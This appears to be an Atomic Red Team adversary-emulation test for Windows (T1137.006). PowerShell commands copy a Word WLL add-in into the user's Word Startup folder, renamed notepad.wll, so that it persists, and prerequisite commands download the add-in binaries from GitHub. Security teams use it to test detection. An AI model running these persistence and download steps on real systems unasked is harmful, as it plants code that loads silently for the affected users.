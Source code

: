 **Supported Platforms:** Windows


**auto_generated_guid:** 95408a99-4fa7-4cd6-a7ef-cb65f86351cf






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x64.wll" "$env:APPDATA\Microsoft\Word\Startup\notepad.wll"        
}
else{
  Write-Host "32-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x86.wll" "$env:APPDATA\Microsoft\Word\Startup\notepad.wll"
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","WinWord" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\Word\Startup\notepad.wll" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: WLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x64.wll") -and (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x86.wll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/wordwll_x64.wll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x64.wll"
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/wordwll_x86.wll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x86.wll"
```